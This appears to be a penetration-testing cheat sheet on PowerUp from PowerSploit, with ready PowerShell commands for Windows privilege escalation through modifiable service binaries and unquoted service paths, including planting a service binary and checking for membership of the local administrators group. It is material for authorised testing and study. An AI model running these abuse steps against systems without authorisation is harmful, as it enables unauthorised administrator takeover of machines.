 # PowerUp

[PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) is a PowerShell tool used for privilege escalation on Windows systems. It helps identify misconfigurations and exploitable settings that allow users to elevate their privileges. It typically can be found at `/share/windows-resources/powersploit/Privesc/PowerUp.ps1`.

{% tabs %}
{% tab title="Service Cmds" %}
```powershell
# Service status
Get-Service -Name 'BackupMonitor'

# Start/Stop the service
Start-Service -Name "<ServiceName>"
Stop-Service -Name "<ServiceName>" -Force

# Restart the service
Restart-Service -Name 'BackupMonitor' -Force
```
{% endtab %}

{% tab title="AllChecks" %}
```powershell
Invoke-AllChecks
```

Details with examples on how an abuse works:

```powershell
help invoke-serviceabuse -examples
```

[PrivescCheck](https://github.com/itm4n/PrivescCheck) and [winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) can also be used for full coverage:

```powershell
# PrivescCheck
Invoke-PrivEscCheck

# PEASS-ng
winPEASx64.exe -all
```
{% endtab %}

{% tab title="Binary Hijacking" %}
Enumerate potentially vulnerable services:

```powershell
# Services that user can modify their binary path or change args to the binary
Get-ModifiableServiceFile

# Service that user can modify their configurations
Get-ModifiableService

# Abuse the enumerate service
Install-ServiceBinary -Name 'mysql'

# Restart the service
Restart-Service -Name 'mysqld' -Force

# Confirm that it worked
> net localgroup administrators
```
{% endtab %}

{% tab title="Unquoted Paths" %}
{% code overflow="wrap" %}
```powershell
# Services with unquoted paths that also have a space in the name
Get-ServiceUnquoted
Get-UnquotedService

# Abuse
Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

# Restart (ignore any erros)
Restart-Service GammaService

# Confirm
net localgroup administrators
```
{% endcode %}
{% endtab %}
{% endtabs %}
